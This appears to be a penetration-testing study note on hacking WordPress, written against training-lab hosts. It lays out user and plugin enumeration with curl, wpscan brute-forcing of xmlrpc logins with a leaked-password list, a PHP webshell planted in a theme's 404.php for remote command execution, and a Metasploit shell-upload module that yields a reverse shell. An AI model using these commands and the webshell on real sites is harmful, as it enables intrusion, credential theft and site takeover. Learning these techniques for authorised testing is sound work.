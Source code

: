# Hacking WordPress

1. [Intro](#intro)
1. [Enumeration](#enumeration)
1. [Exploitation](#exploitation)
1. [Skills Assessment](#skills-assessment)

## Intro

* WordPress - most popular CMS (Content Management System) - mostly used as a WYSIWYG editor

* After installation, all WordPress related files in Linux systems will be found in webroot at ```/var/www/html```

* Key WP files:

  * ```index.php```
  * ```license.txt```
  * ```wp-activate.php```
  * ```/wp-admin/login.php```, ```/wp-admin/wp-login.php```, ```login.php```, or ```wp-login.php``` (one of these files act as the admin login page)
  * ```xmlrpc.php```
  * ```wp-config.php```

* Key WP directories:

  * ```wp-content```
  * ```wp-includes```

* WP user roles - admin, editor, author, contributor and subscriber

## Enumeration

* WP core version:

  * search for ```meta generator``` tag in source code:

    ```shell
    curl -s -X GET http://blog.inlanefreight.com | grep '<meta name="generator"'
    ```
  
  * check for links to CSS and JS

  * in older WP versions, ```readme.html``` in root directory can be viewed

* Plugins & themes:

  ```shell
  # enum plugins
  curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2

  # enum themes
  curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2

  # active plugin enum
  curl -I -X GET http://blog.inlanefreight.com/wp-content/plugins/someplugin
  # if plugin does not exist, we will get 404 error
  # anything other than that means plugin exists
  # similarly we can enumerate themes

  # we can automate active plugin/theme enum using fuzzing tools
  ```

* Directory indexing:

  * even if plugin is deactivated, it can still be accessed; best practice is to either remove unused plugins or keep plugins up-to-date

  * if we browse to plugins directory at ```http://website.com/wp-content/plugins/mail-masta```, we still have access to that plugin; best practice to disable directory indexing on web servers

* User enumeration:

  * from posts, we can get username and the corresponding ID; the link to user profile will be under ```/author```:

    ```shell
    curl -s -I -X GET http://blog.inlanefreight.com/?author=1
    # where 1 is the user id
    # if the user exists, we will get username in the Location header URL
    # if the user does not exist, we get a 404 error
    ```
  
  * for WP versions < 4.7.1, we can interact with the JSON endpoint to get users list:

    ```shell
    curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq
    ```

* Login:

  * once we have list of valid users, we can do a brute-force attack via the login page or the ```xmlrpc.php``` page

    ```shell
    curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
    # if the creds are valid, we get a response with several params
    # if creds are invalid, we get a 403 Forbidden response
    ```

* [wpscan](https://github.com/wpscanteam/wpscan):

  * automated WP scanner and enumeration tool

    ```shell
    wpscan -hh
    # help menu

    wpscan --url http://94.237.54.50:50176 --enumerate
    # enumerate WP site
    # use '--enumerate ap' to enumerate all plugins

    # --api-token param can be used if we have account on WPVulnDB
    # to get vuln info from external sources
    ```

## Exploitation

* From the ```wpscan``` results, we can see vulnerable plugins like ```Mail Masta, 1.0``` and ```Google Review Slider 6.1``` have been found.

* Based on the scan results, we can search for exploits related to these plugin versions; for example, [Mail Masta 1.0 LFI exploit](https://www.exploit-db.com/exploits/40290).

* Attacking users:

  ```shell
  wpscan --url http://94.237.62.195:33535 --enumerate u
  # enumerate users

  # wpscan uses 2 login brute force methods - xmlrpc and wp-login
  # xmlrpc is faster

  wpscan --url http://94.237.62.195:33535 --password-attack xmlrpc -t 20 -U roger -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
  # bruteforce attack against 'roger'
  # multiple users can be specified
  ```

* With admin access to WP, we can modify PHP source code to get RCE - after logging into WP as admin, navigate to Appearance > Theme Editor - select an inactive/unused theme, and choose a non-critical file like ```404.php``` to modify and add a PHP web shell.

* For example, we can edit the ```404.php``` file with "twentyseventeen" theme and include the PHP basic webshell code ```system($_GET['cmd']);``` in the source code for the page; then we get RCE using ```curl -X GET "http://website.com/wp-content/themes/twentyseventeen/404.php?cmd=id"```

* We can attempt for a reverse shell using Metasploit as well:

  ```shell
  msfconsole

  search wp_admin
  # search for the wp_admin_shell_upload module

  use 0

  options
  # view all options
  
  set rhosts blog.inlanefreight.com

  set lhost tun0

  set username admin

  set password sunshine1
  # we need valid creds for an account with permissions to create files on server

  # after setting options
  run
  # get meterpreter shell
  ```

## Skills Assessment

  ```shell
  # for the webpage, we can see that the domain inlanefreight.local is being used
  # furthermore, we have a blog page at blog.inlanefreight.local
  # we can map both of these to the IP in /etc/hosts
  sudo vim /etc/hosts

  # now we can visit blog.inlanefreight.local
  # it is running WP

  wpscan --url http://blog.inlanefreight.local --enumerate ap
  # enum all plugins
  # this also shows us directories with directory listing enabled

  wpscan --url http://blog.inlanefreight.local --enumerate u
  # enum users

  # we can exploit the email-subscribers 4.2.2 plugin for unauthenticated downloads
  # we can also exploit the site-editor 1.1.1 plugin for LFI

  # we can attempt to brute force users
  wpscan --url http://blog.inlanefreight.local --password-attack xmlrpc -t 20 -U erika -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
  # this gives us a valid password

  # login to the dashboard with the valid creds
  # and navigate to theme editor

  # add a basic PHP webshell code to an unused theme's 404 page
  # then we can get RCE using curl
  curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentysixteen/404.php?cmd=id"

  curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentysixteen/404.php?cmd=ls%20%2Fhome%2Ferika"
  # URL encode the command to avoid errors
  ```

